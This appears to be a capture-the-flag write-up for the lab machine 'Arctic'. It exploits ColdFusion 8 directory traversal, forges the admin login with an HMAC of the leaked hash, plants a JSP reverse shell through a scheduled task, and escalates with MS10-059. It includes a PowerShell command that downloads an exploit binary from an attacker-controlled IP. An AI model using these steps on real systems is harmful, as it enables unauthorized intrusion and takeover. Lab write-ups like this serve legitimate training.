

# Arctic

### Machine Info


#### Nmap:



##### FMTP(Flight Message Transfer Protocol):
I searched for `FMTP` service but couldn't get information about exploits or vulnerability. After that I just accessed to port 8500 via web browser and got some directories.


I traversed the directory `CFIDE` and found `ColdFusion 8 Administrator` page.


Searchsploit to check if it has vulnerability or not:


As we can see from the result, some `Adobe Cold Fusion` applications has vulnerability.

Let's check the `Directory Traversal` vulnerability. From the exploit `14641.py`, I checked that it is possible to disclose the password of admin.


Access to above web address and I got the password:


First I just tried to login with password `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03` but failed to login. I checked the source code and password changed due to salt.

From the below link, I found how to encrypt/decrypt my input data.</br>
[]()https://nets.ec/Coldfusion_hacking

I have to tamper the data so I used `burpsuite` to tamper the password.


From the `burp`, I grabbed the salt and decrypt admin password.

```
❯ python -c 'import hashlib,hmac; hash=raw_input("Hash > "); salt=raw_input("Salt > "); print "HMAC",hmac.new(salt,hash,hashlib.sha1).hexdigest().upper()'
Hash > 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
Salt > 1582205396581
HMAC 910ABAC2C86EC3F29640039C95DB100CD10307F6
```

After decrypt my admin password, I replaced `cfadminPassword` parameter with decrypted `HMAC 910ABAC2C86EC3F29640039C95DB100CD10307F6` and logged in to admin page.


I checked every menu and found two good pages `mapping` and `scheduled task`.

Mapping:


Scheduled Task:


##### Exploit:

From the scheduled task page, I can deploy my malicious reverse shell code to the server and eventually I can get the reverse shell.

Generate Shellcode:


Create new task:


Run python `SimpleHTTPServer`:
```
❯ python -m SimpleHTTPServer 8080        
Serving HTTP on 0.0.0.0 port 8080 ...
```


Now we can check our `shell.jsp` from `CFIDE` directory and access to `shell.jsp`.


`nc` listener on attacking side:


#### Privilege Escalation

By using the `Windows-Exploit-Suggester`, I found that system has `MS10-059` vulnerability.


I got compiled version of `MS10-059` exploit from below address.</br>
[]()https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe

From windows victim machine:
```
@powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://10.10.14.37:8080/Chimichurri.exe', 'C:\Users\tolis\Desktop\Chimichurri.exe')
```

##### Exploit
Execute exploit:


`nc` listener on attacking machine:


And you can get `root.txt` :)
